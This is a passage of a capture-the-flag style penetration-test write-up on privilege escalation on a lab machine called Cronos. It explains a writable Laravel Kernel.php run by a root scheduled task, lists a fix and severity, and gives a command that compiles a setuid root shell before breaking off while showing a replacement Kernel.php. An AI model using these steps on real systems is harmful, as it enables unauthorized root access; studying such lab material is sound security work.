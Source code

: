 **Local.txt Contents**

```txt
51d236438b333970dbba7dc3089be33b
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Sheduled Task; Modifiable Files in Path

**Vulnerability Explanation:**

There exists a scheduled task run by the root user on the Cronos machine. The problem with this is that the file that the task points to in order to run is modifiable by all users. An attacker can modify the files mentioned in the task and run malicious code with root permission. In the case of the Cronos machine, I was able to execute system commands as the root user because of this vulnerability.

**Vulnerability Fix:**

Restrict read, write, and executable permissions to the root user for the files mentions in scheduled tasks run by the root user.

**Severity:** Critical

\newpage

**Exploit Code:**

With the laravel command scheduler, we can find out how to execute shell commands and schedule when they are executed:

Reference: *https://laravel.com/docs/8.x/scheduling*

We can edit *Kernel.php*

```txt
-rw-r--r-- 1 www-data www-data 819 Apr  9  2017 Kernel.php
```

First we create and compile a shell to execute. This way we are able to persist our privileged session.

On your attacker machine, run the following commands:

```bash
echo -e "int main(void){\n	setuid(0);\n	setgid(0);\n	system(\"/bin/bash\");\n}" > shell.c
gcc -o rootshell shell.c
```

Now we can make our *Kernel.php* file. Here is the code that I used:

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
```